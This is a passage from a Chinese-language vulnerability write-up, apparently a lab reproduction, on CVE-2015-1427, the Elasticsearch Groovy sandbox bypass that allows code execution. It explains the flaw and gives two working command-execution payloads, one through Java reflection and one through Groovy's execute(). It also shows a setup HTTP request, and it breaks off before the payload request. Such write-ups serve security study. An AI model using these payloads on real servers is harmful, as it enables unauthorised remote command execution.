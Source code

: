 ```
        }
    }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCO6Xcy4Z97Qyp0UFZjenG6ttAgRmN7S8zGo5yWicVSntIvb9aroQQDIkw/640?wx_fmt=png)

**ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427)**

**漏洞原理**

CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。Groovy 是一款开发语言，这意味着我们完全可以在不使用 Java 的前提下实现代码执行。如果仅仅是沙盒的问题，那么修补黑白名单到攻击者没办法绕过沙盒使用 Java 反射就好了，但是一种语言要怎么靠黑白名单来限制它的绝大部分功能？所以没有把 Groovy 当做一种编程语言是这问题的真正原因。

本漏洞：1. 是一个沙盒绕过；2. 是一个 Goovy 代码执行漏洞。  

Groovy 语言 “沙盒”

ElasticSearch 支持使用 “在沙盒中的”Groovy 语言作为动态脚本，但显然官方的工作并没有做好。lupin 和 tang3 分别提出了两种执行命令的方法：

1.  既然对执行 Java 代码有沙盒，lupin 的方法是想办法绕过沙盒，比如使用 Java 反射
    
2.  Groovy 原本也是一门语言，于是 tang3 另辟蹊径，使用 Groovy 语言支持的方法，来直接执行命令，无需使用 Java 语言
    

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的 POC。

**Java 沙盒绕过法：**

java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("whoami").getText()

**Goovy 直接执行命令法：**

def command='whoami';def res=command.execute().text;res

**漏洞复现**

由于查询时至少要求 es 中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25


{
  "name": "test"
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCO3YqLfttP4Sb1xfeznz0fazho8C9LnDG86Ib7fzIMNrz8OibyWD3nibdg/640?wx_fmt=png)

然后发送包含 payload 的数据包，执行任意命令：
